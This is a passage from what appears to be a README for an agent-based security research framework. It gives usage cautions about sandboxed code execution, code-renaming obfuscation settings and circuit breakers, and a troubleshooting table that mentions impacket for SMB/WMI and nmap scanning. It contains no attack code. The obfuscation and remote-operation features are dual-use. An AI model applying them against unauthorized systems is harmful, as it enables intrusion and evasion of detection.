- **Never call `exec()` or `eval()` on untrusted code** outside of `NeuroAssimilatorAgent.assimilate_with_mutation()` — the AST sandbox is there for a reason.
- **Don't skip the circuit breaker** around outbound network calls — a flapping external endpoint will cascade into agent bankruptcy without it.
- **Don't commit `bridge_state.db`, `scan_cache.db`, `*.log`, or any vault directories** to version control.
- **Don't set `obfuscation_chance = 1.0`** without first verifying semantic invariance — 100% rename rates occasionally collide on complex codebases.

### 🔧 Troubleshooting

| Symptom | Likely Cause | Fix |
|---|---|---|
| `Circuit OPEN` on startup | Redis or external API was unreachable during the last 5 retries | Wait 60s for HALF_OPEN, or restart the service |
| `assimilate_with_mutation` returns `None` | Policy validator rejected the code or semantic match failed | Check log for `VIOLATION:` or `semantic_match: False`; review code for forbidden calls |
| `impacket` not found | Optional dependency not installed | `pip install impacket` for SMB/WMI support |
| Simulate step 7 fails with bridge error | `bridge_state.db` dirty from prior run | `git checkout bridge/bridge_state.db` then re-run |
| Agent `BANKRUPT` | Expensive operations debited budget past -100 ROOT | Register a new agent or top-up balance via `BELLedger.credit()` |
| `nmap` stub active instead of real scanner | `python-nmap` or system nmap not installed | `pip install python-nmap` and ensure `nmap` is on `PATH` |

---

> **Version**: 4.5.0-Hardened | **Commits**: `276103e` (Option A) · `e98179d` (Option B) · `9ebcedc` (Option C) · `9e5f3c6` (Option D)
>
> *This document covers the defensively-scoped security research framework as of the above commits. All network operations target only authorized test environments.*
